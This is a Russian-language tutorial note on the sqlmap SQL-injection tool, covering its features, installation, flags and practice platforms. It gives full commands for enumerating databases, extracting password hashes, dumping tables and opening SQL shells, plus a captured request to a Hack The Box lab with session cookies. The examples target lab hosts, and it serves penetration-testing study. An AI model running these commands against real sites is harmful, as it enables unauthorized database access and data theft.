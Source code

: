[[Введение в SQL]] - Чтобы ознакомиться с языком.

---

# SQLMAP

## Введение

**Sqlmap** — это бесплатный инструмент на **Python**, для автоматизации поиска, эксплуатации и тестирования уязвимостей **SQL**.

[Sqlmap](https://spy-soft.net/sqlmap/) — это, наверное, самый известный сканер для поиска **SQL**-инъекций. Его разработкой занимаются Мирослав Штампар (Хорватия) и Бернардо Дамеле (Италия). Особенность этого сканера в том, что он может не только найти ошибку, но и сразу эксплуатировать ее, причем в полностью автоматическом режиме. Умеет работать с **БД MySQL**, **MS SQL**, **PostgreSQL** и **Oracle**.

**Возможности SQLMap:**

- Автоматическое обнаружение **SQL** инъекций, в том числе слепых инъекций.
- Внедрение в веб-приложение для выполнения произвольных **SQL** запросов и получения несанкционированного доступа к БД.
- Извлечение данных из БД, включая пароли пользователей.
- Возможность работы через прокси и эвазионные техники для обхода **WAF**.
- Поддержка широкого списка **СУБД**, включая **MySQL**, **Oracle**, **PostgreSQL** и др.

Этот инструмент способен обнаружить уязвимости **SQL**-инъекции с использованием различных методов. Если будет обнаружена уязвимость, он способен атаковать сервер для определения имен таблиц, загрузки базы данных и автоматического выполнения SQL-запросов.

Как только он обнаруживает SQL-инъекцию на целевом хосте, вы сможете:

- Провести обширное обнаружение версии базы данных бэкэнда
- Получить имя пользователя и базы данных сессии DBMS
- Перечислить пользователей, хеши паролей, привилегии и базы данных
- Выгрузить всю таблицу/столбцы DBMS или конкретную таблицу/столбцы пользователя
- Выполнить пользовательские SQL-запросы

---

## Установка SQLMap

**SQLMap** по умолчанию установлен в некоторые секьюрити дистрибутивы, такие как [Kali Linux](https://spy-soft.net/kali-linux-live-usb-persistence/) (в полной версии).

Для установки **SQLMap** на **Kali Linux** (легкую версию) или другие дистрибутивы на базе **Debian**, выполните команду:
``` 
sudo apt-get install sqlmap
```
Еще один способ установки — это скачивание из [репозитория проекта на GitHub](https://github.com/sqlmapproject/sqlmap "репозитория проекта на GitHub").

---

## Использование SQLMap на Kali Linux

После установки, откройте справку и изучите **параметры использования**:
```
sqlmap  -h
```
**Параметры справки**:
```
-h, --help — показать основное сообщение справки и завершить выполнение
-hh — показать расширенное сообщение справки и завершить выполнение
--version — показать номер версии программы и завершить выполнение
-v VERBOSE — уровень детализации: 0-6 (по умолчанию 1)
```
>**Цель** — должен быть предоставлен хотя бы один из этих параметров для определения цели(ей):
``` 
-u URL, --url=URL — целевой урл(например, "http://www.site.com/vuln.php?id=1")
-g GOOGLEDORK — обработать результаты Google dork как целевые урлы
```
>**Инъекция** — эти аргументы могут быть использованы для указания, какие параметры тестировать, предоставить пользовательские внедряемые данные и необязательные сценарии модификации:
```
-p TESTPARAMETER — параметр(ы), подлежащий(е) тестированию
--dbms=DBMS — принудительно задать используемую СУБД (базу данных)
```
>**Обнаружение** — эти аргументы могут быть использованы для настройки фазы обнаружения:
```
--level=LEVEL — уровень тестирования (1-5, по умолчанию 1)
--risk=RISK — уровень риска тестирования (1-3, по умолчанию 1)
```
>**Техники** — эти аргументы могут быть использованы для настройки тестирования конкретных техник SQL-инъекций:
```
--technique=TECH.. — используемые техники SQL-инъекций (по умолчанию "BEUSTQ")
```
>**Перечисление** — эти аргументы могут быть использованы для перечисления информации о СУБД, структуре и данных в таблицах:
```
-a, --all — получить все

-b, --banner — получить баннер СУБД
--current-user — получить текущего пользователя СУБД
--current-db — получить текущую базу данных СУБД
--passwords — перечислить хеши паролей пользователей СУБД

--tables — перечислить таблицы базы данных СУБД
--columns — перечислить столбцы таблиц базы данных СУБД
--schema — перечислить схему СУБД

--dump — получить записи таблицы базы данных СУБД
--dump-all — получить все записи таблиц всех баз данных СУБД
-D DB — база данных СУБД для перечисления

-T TBL — таблица(ы) базы данных СУБД для перечисления
-C COL — столбец(ы) таблицы базы данных СУБД для перечисления
```

---

##### **Опции**

- `--data` – указываем параметры для тестирования, передающиеся в **POST**-запросе (например, `data=&quot;txtLoginID=skan&amp;txtPassword=pass&amp;cmdSubmit=Login&quot;`);
- `--crawl` – сканирование сайта с целевого **URL**. С помощью этой опции можно выставить глубину, ниже которой sqlmap не будет сканировать (например, `--crawl=3`);
- `-f --forms` – парсинг и анализ форм на целевом **URL**;
- `-dbs` – ключ для перечисления имеющихся баз данных;
- `--sql-shell` - получить шелл для взаимодействия с базой данных с использованием языка запросов **SQL**.
- `-sql-query STRING` - выполнит указанную нами команду/запрос. Например: `-sql-query "SELECT * FROM products"` 
- `--sqlmap-shell` - интерактивный **shell** самого **sqlmap**. Пример:
	```
	sqlmap -u "http://<IP-адрес>/index.php?username=&password=&" --sqlmap-shell
	
	sqlmap-shell> --dbs
	```
---

##### **Примеры использования**

- `sqlmap --url http://www.hacktory.lab/?id=1` – сканировать параметр id в интерактивном режиме;
- `sqlmap --url http://www.hacktory.lab/?id=1 --batch` – сканировать параметр id автоматически;
- `sqlmap --url http://www.hacktory.lab/?id=1 --dbs` – получить список БД;
- `sqlmap --url http://www.hacktory.lab/?id=1 -D db --tables` – для БД db получить список таблиц;
- `sqlmap --url http://www.hacktory.lab/?id=1 -D db -T table --dump-all` – для БД db и таблицы table получить все данные.

---

##### **Другие примеры**
```
sqlmap --help
sqlmap -u "<url>" --cookie="name=value"
```
Для более детального сканирование можно скопировать нужный пакет с запросом из burpsuite в файл request.txt и далее использовать сканирование:
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch --dbs --threads 10 --hex 
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D <database> --tables --threads 10 --dump-all
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D <database> -T <table> -C <column>,<column2> --dump --threads 10
```
где request.txt:
```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6ImVKeENTWE5uTmk0WEtQT0crMXJpM0E9PSIsInZhbHVlIjoiblo4V0tBdGF1REIvOEpadnl3eFRyMWF5Z29LWG1vWGFMaTFBSm1rYnUzMng2MHl4enpWR1paQ2ljaWNZQlZvQ2d4Uy9NbTloVThwSkRQemZwZ2VFNkFBdk15ZkVEOHd0ZzhhTjZtTHhIYSt4aEwrbGRsS0xxSHpGb1I1blZDOGMiLCJtYWMiOiI5NTFmNDBiMzJhZjBkMzhkMjNmNzRkMmUxMTZkYjg5OTBmOWM2MzE3NzIxNzViNjhkMTk3ZWI4ODYxM2FlOGYwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Im9wRVFkK0RRcFk4NlRpTmhUZys5dGc9PSIsInZhbHVlIjoiVUVwYXJtdWg5R3BZSWhEMHhnZDFOVTJZZkVzU3lPY1ViMUxtUWFKZUN5NFpNTHBmSGJRMjV5UDNOYm5IdXhqZGNnRDFicTBhekZYTnJrUXdTNWlWcEh2UVhPTmVlVmYwOXN6WlZzVGFkREZHWWlTOU91a3RNdEFUWGdLMFgwTGMiLCJtYWMiOiJiMzExMGE3ZDliYzczOWYxNzk2NGJiOTliZDQyYzdhZTQzMjBmZjZiZjZhY2QyYWE4YjkyNzg3MThiYTc5MTUzIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=NX6KOxDfLMuybJ3qXJh69reEQvm2aNkfNxeSui9U&email=qwelab
```

---
# Где новичку практиковаться по SQLi?

Мо­дуль [HTB Academy](https://spy-soft.net/hack-the-box/), пос­вящен­ный SQLi, или [ана­логич­ный модуль](https://tryhackme.com/room/sqlinjectionlm "ана­логич­ный модуль") на пло­щад­ке [TryHackMe](https://spy-soft.net/tryhackme/).

За­тем можете заг­лянуть на сайт PortSwigger и прой­ти «путь» [SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection "SQL injection"). Сра­зу пре­дуп­реждаю, что он слож­ный и даже очень слож­ный для нович­ка, но там вез­де при­веде­ны отве­ты. Луч­ше в них не смот­реть сра­зу, но, если вдруг зас­тря­нете, они выручат.

Еще могу пореко­мен­довать две очень инте­рес­ные лабора­тор­ные работы с пло­щад­ки Hack The Box: PC и Magic или хотя бы те их час­ти, что свя­заны с ата­ками на веб и получе­нием поль­зователь­ско­го фла­га (повыше­ние при­виле­гий в Linux можете пока не тро­гать).

Также отличный ресурс: [SQL injection challenge (hackerdom.ru)](https://sql.training.hackerdom.ru/). ([подсказки](https://forum.antichat.club/threads/423579/page-2))

---